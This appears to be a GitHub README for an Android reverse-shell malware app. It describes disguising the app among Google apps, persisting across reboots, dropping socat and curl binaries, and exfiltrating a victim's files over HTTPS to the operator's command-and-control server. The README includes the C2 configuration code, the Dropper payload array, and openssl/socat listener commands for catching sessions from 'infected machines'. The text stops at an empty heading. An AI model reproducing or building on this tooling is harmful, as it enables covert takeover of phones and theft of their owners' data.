



# revshellSdk28
This is my Android Reverse Shell with dropping capabilities.

The idea was to create a Termux-like environment with a main APK with core functionality, capable of dropping additional executables and scripts.

## Features
- **Secure TLS shell**
- **Persistent** over time and reboots
- **Hidden** and camouflaged with Google apps
- **Drops additional statically linked executable and scripts** based on CPU architecture

Executable and scripts integrated by default:
- `socat` (aarch64 and x86/x64)
- `curl` (aarch64 and x86/x64)
- custom script for file exfiltration over HTTPS (`uplaod`)
- custom script to get device public IP (`ipinfo`)
- custom script to override `whoami` and set a custom "victim id" (`whoami`)

## Screenshots
This is the Reverse Shell in action. On the right you can see the device app drawer: can you guess where is the malicious app? From a visual perspective the reverse shell is perfectly camouflaged with other Google Apps.



Unfortunately, to guarantee persistence, the app must show a persistent notification (as sneaky as possible):



On notification/app opening the user will be redirected to a Google support page:



## Technical details

### execve

This app is able to execute ELF files using `execve` function. This function is forbidden on Android Q or higher (API level *>28*).

For more details: https://android-review.googlesource.com/c/platform/system/sepolicy/+/804149

So in order to compile this app a target API level between 26 and 28 must be set. This, of course, resulted in a number of limitations so that certain features could not be included or used within the app.

### Statically linked binaries

On the target device there is no possibility to include any sort of dependency for the executable files or compile them from source so the malicious app drops **statically linked binaries** included in the APK at compile time.

To add more binaries you must:
- encode the binary to Base64
- put the encoded file in `./revshellSdk28/app/src/main/res/raw`
- modify `./revshellSdk28/app/src/main/java/org/android/settings/Dropper.kt`; for example:
  ```
              val payloads = arrayOf(
                arrayOf("aarch64", "socat" , readRawTextResource(context, R.raw.socat_aarch64)),
                arrayOf("aarch64", "curl"  , readRawTextResource(context, R.raw.curl_aarch64)) ,
                arrayOf("x86_64" , "socat" , readRawTextResource(context, R.raw.socat_x86_64)) ,
                arrayOf("x86_64" , "curl"  , readRawTextResource(context, R.raw.curl_x86_64))  ,
                arrayOf("any"    , "whoami", readRawTextResource(context, R.raw.whoami))       ,
                arrayOf("any"    , "ipinfo", readRawTextResource(context, R.raw.ipinfo))       ,
                arrayOf("any"    , "upload", readRawTextResource(context, R.raw.upload))
            )
  ```
  including (in order) the following parameters:
    - a specific architecture (aquired on the target machine using `uname -m`) or "any"
    - filename that will be written on device storage
    - name of the Resource File in the Android Project

Binaries included by default are not compiled by me! You can find these on various Github repos. Following some examples:
- https://github.com/polaco1782/linux-static-binaries
- https://github.com/ryanwoodsmall/static-binaries
- https://github.com/mosajjal/binary-tools
- https://github.com/andrew-d/static-binaries

### Command and Control settings
In order to set your C2 server you must modify `./revshellSdk28/app/src/main/java/org/android/settings/MainMaliciousCode.kt`.

You can use an IP or an hostname. Example:
```
    object C2 {
        //const val IP    = "myc2.server.it"
        const val IP    = "123.123.123.123"
        const val RPORT = 443
        const val RETRY = 5
    }
```
Ofcourse you must use a **public address**, set **port forwarding** and firewall rules on your router. Additionally, you can use DNS, Ngrok and other services for reachability and to route your traffic but **how to set this configurations or use those services is out of the scope of this documentation!**

### How to start a session
1. Generate a certificate for the TLS connection on your C2 server:
```
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -out bind.crt
cat bind.key bind.crt > bind.pem
```
2. Create a listener with your favourite tool. Example:
```
sudo socat -d -d OPENSSL-LISTEN:443,cert=bind.pem,verify=0,fork STDOUT
```
Note: this app is not designed to work in a multi-client environment. The easiest thing you can do to use it with multiple devices is to use a different IP port for each infected machine and change the content of `./revshellSdk28/app/src/main/res/raw/whoami` to set a recognizable name for the victim system.

### Notes on the `upload` script
This script permits file exfiltration over HTTPS. 

To perform this task the file is first Urlencoded then uploaded using `curl` with `--insecure` and `--dns-servers` flags.

If the request return `200 OK` the file is already on the server so it's not uploaded again.

The file is located in `./revshellSdk28/app/src/main/res/raw/upload` and **you must modify it to set your C2 server!**

Note: **a simple HTTP file receiver is included in this project. **


### Notes Curl usage
